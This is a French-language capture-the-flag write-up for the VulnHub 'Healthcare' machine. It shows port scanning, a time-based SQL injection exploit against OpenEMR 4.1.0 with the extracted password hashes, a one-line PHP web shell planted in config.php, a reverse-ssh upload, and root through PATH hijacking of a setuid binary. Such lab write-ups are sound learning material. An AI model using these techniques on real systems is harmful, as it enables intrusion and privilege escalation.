 # Solution du CTF Healthcare de VulnHub

[Healthcare](https://vulnhub.com/entry/healthcare-1,522/) est un CTF proposé sur VulnHub et créé par [v1n1v131r4](https://twitter.com/v1n1v131r4).

```
Nmap scan report for 192.168.56.65
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-title: Coming Soon 2
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
```

Le dossier `addon-modules` existe bien mais retourne le message *This directory can only be viewed from localhost.*

## Same Player Shoot Again

Feroxbuster trouve quelques dossiers supplémentaires :

```
301        9l       29w      342c http://192.168.56.65/images
200      121l      281w     5031c http://192.168.56.65/index
301        9l       29w      341c http://192.168.56.65/fonts
403        1l        4w       59c http://192.168.56.65/phpMyAdmin
301        9l       29w      338c http://192.168.56.65/js
301        9l       29w      342c http://192.168.56.65/vendor
200       19l       78w      620c http://192.168.56.65/robots
301        9l       29w      339c http://192.168.56.65/css
403        1l        8w       49c http://192.168.56.65/addon-modules
200        2l       14w     1406c http://192.168.56.65/favicon
403       42l       96w        0c http://192.168.56.65/server-status
200      121l      281w     5031c http://192.168.56.65/
301        9l       29w      342c http://192.168.56.65/gitweb
403       42l       96w        0c http://192.168.56.65/server-info
403        1l        4w       55c http://192.168.56.65/perl-status
```

On voit la mention de gitweb et d'ailleurs si je demande `/cgi-bin/gitweb.cgi` le fichier est présent mais j'obtiens une erreur 500... pas vraiment ce que j'espérait.

Tout semblait plutôt mal barré puis j'ai relancé la recherche aec la wordlist `directory-list-2.3-big.txt` qui a trouvé un dossier supplémentaire :

`http://192.168.56.65/openemr`

Il s'agit d'une install de OpenEMR, déjà croisé sur [le CTF DriftingBlues 8 de HackMyVM](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20DriftingBlues%208%20de%20HackMyVM.md#so-long-and-thank-for-all-the-wordlists). Ici le logiciel affiche sa version : 4.1.0.

Ca tombe bien car il y a justement [une injection SQL](https://www.exploit-db.com/exploits/49742) qui touche cette version. Ainsi si je donne un apostrophe en paramètre au script vulnérable, jobtiens :

> ERROR: query failed: select password,length(password) as passlength from users where username = '''
> 
> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

L'exploit présent sur exploit-db fonctionne très bien mais est un peu long en raison de l'utilisation de la technique de temporisation (time based blind sql injection).

```bash
$ python3 49742.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Je passe les hashs sur crackstation.net et j'obtiens respectivement `ackbar` et `medical`.

Une fois connecté en tant qu'administrateur j'ai suivi la même technique que pour *DriftingBlues 8* à savoir aller dans `Administration > Files` puis rajouter la ligne suivante au fichier `config.php` :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois [GitHub - Fahrj/reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh) uploadé sur la VM, je me rend compte que le système ne peut pas exécuter le binaire. Un petit `uname` permet de voir que le système est en 32 bits contrairement à ce que prétendait l'image VirtualBox.

Heureusement reverse-ssh fournit aussi un binaire 32 bits qui peut communiquer avec son penchant 64 bits :)

On trouve trois dossier sous `/home` mais seulement le premier doit être intéressant :

```
drwxr-xr-x 27 almirant almirant 4096 Jul 29  2020 almirant
drwxr-xr-x 31 medical  medical  4096 Nov  5  2011 medical
drwxr-xr-x  3 root     root     4096 Nov  4  2011 mysql
```

J'y trouve d'ailleurs le premier flag (`d41d8cd98f00b204e9800998ecf8427e`).

## Healthshell

Le système a une liste assez longue de binaires setuid :

```bash
bash-4.1$ find / -type f -perm -u+s -ls 2> /dev/null 
147863   12 -rwsr-xr-x   1 root     root         9564 Sep  3  2011 /usr/libexec/pt_chown
147695  236 -rws--x--x   1 root     root       238352 Sep  8  2011 /usr/lib/ssh/ssh-keysign
145819    8 -rwsr-xr-x   1 root     polkituser     5748 Apr  5  2010 /usr/lib/polkit-resolve-exe-helper
145811   12 -rwsr-xr-x   1 root     root         9108 Aug 29  2011 /usr/lib/polkit-1/polkit-agent-helper-1
139126   12 -rwsr-xr-x   1 root     root         9940 Nov  2  2011 /usr/lib/chromium-browser/chrome-sandbox
145817    8 -rwsr-xr--   1 root     polkituser     7580 Apr  5  2010 /usr/lib/polkit-grant-helper-pam
145821   16 -rwsr-xr-x   1 polkituser root        16356 Apr  5  2010 /usr/lib/polkit-set-default-helper
147975   12 -rwsr-xr-x   1 root     root        10757 Jun 11  2011 /usr/sbin/fileshareset
148146   12 -rwsr-xr-x   1 root     root        12036 Nov 28  2010 /usr/sbin/traceroute6
148168   12 -rwsr-xr-x   1 root     root        10713 Aug  2  2011 /usr/sbin/usernetctl
148166   36 -rwsr-xr-x   1 root     root        33324 Nov  9  2009 /usr/sbin/userhelper
136381   40 -rwsr-sr-x   1 root     root        39020 Jun 26  2011 /usr/bin/crontab
136286   44 -rwsr-sr-x   1 daemon   daemon      41036 Jan 19  2010 /usr/bin/at
137295   32 -rwsr-xr-x   1 root     root        28916 Dec 28  2010 /usr/bin/pumount
136305    4 -rwsr-sr-x   1 daemon   daemon        137 Jan 19  2010 /usr/bin/batch
136529   16 -rwsr-xr-x   1 root     root        15848 Jan  9  2010 /usr/bin/expiry
137125   32 -rws--x--x   1 root     root        28752 Jan  9  2010 /usr/bin/newgrp
137230   20 -rwsr-xr-x   1 root     root        16920 Aug 29  2011 /usr/bin/pkexec
137590  120 -rwsr-xr-x   1 root     root       122188 Nov 28  2010 /usr/bin/wvdial
137249   40 -rwsr-xr-x   1 root     root        39488 Dec 28  2010 /usr/bin/pmount
137440   64 -rws--x--x   1 root     root        63752 Jan 23  2010 /usr/bin/sperl5.10.1
136717  364 -rwsr-xr-x   1 root     root       370648 Jan 18  2011 /usr/bin/gpgsm
136708   56 -rwsr-xr-x   1 root     root        56100 Jan  9  2010 /usr/bin/gpasswd
136347   16 -rws--x--x   1 root     root        12400 Nov 16  2010 /usr/bin/chfn
137462   32 -r-sr-xr-x   1 root     root        31144 Nov 16  2010 /usr/bin/su
137181   24 -r-s--x--x   1 root     shadow      20512 Jan 30  2010 /usr/bin/passwd
136709  936 -rwsr-xr-x   1 root     root       956252 Oct 18  2010 /usr/bin/gpg
132151    8 -rwsr-sr-x   1 root     root         5813 Jul 29  2020 /usr/bin/healthcheck
136247    8 -rwsr-xr-x   1 root     root         5852 Sep 22  2011 /usr/bin/Xwrapper
137222   36 -rwsr-xr-x   1 root     root        35128 Nov 28  2010 /usr/bin/ping6
136351   12 -rws--x--x   1 root     root        11664 Nov 16  2010 /usr/bin/chsh
   172  308 -rwsr-x---   1 root     messagebus   314400 Sep 29  2011 /lib/dbus-1/dbus-daemon-launch-helper
136122   12 -rwsr-xr-x   1 root     root        11114 Jul  6  2011 /sbin/pam_timestamp_check
   123   36 -rwsr-xr-x   1 root     root        34848 Nov 28  2010 /bin/ping
    83   28 -rwsr-xr-x   1 root     root        26360 Oct 18  2011 /bin/fusermount
   144   32 -rwsr-xr-x   1 root     root        31144 Nov 16  2010 /bin/su
   111   80 -rwsr-xr-x   1 root     root        80748 Nov 16  2010 /bin/mount
   152   32 -rwsr-xr-x   1 root     root        31180 Nov 16  2010 /bin/umount
```

Certains ne me parlent pas et d'autres semblent vraiment louches (comme `gpg`) mais c'est surtout le `healthcheck` qui me semble inhabituel.

Un coup de strings suffit pour me convaincre qu'il s'agit d'un binaire custom :

```bash
bash-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

C'est du très classique, on va exploiter le fait que ce programme privilégié lance des exécutables avec des paths relatifs et non absolus :

```bash
bash-4.1$ cd /tmp/
bash-4.1$ cp /bin/dash ifconfig
bash-4.1$ export PATH=.:$PATH
bash-4.1$ /usr/bin/healthcheck
'xterm-256color': unknown terminal type.
System Health Check

Scanning System
# id
uid=0(root) gid=0(root) groups=0(root),416(apache)
# cd /root
# ls
Desktop  Documents  drakx  healthcheck  healthcheck.c  root.txt  sudo.rpm  tmp
# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```

*Publié le 19 novembre 2022*


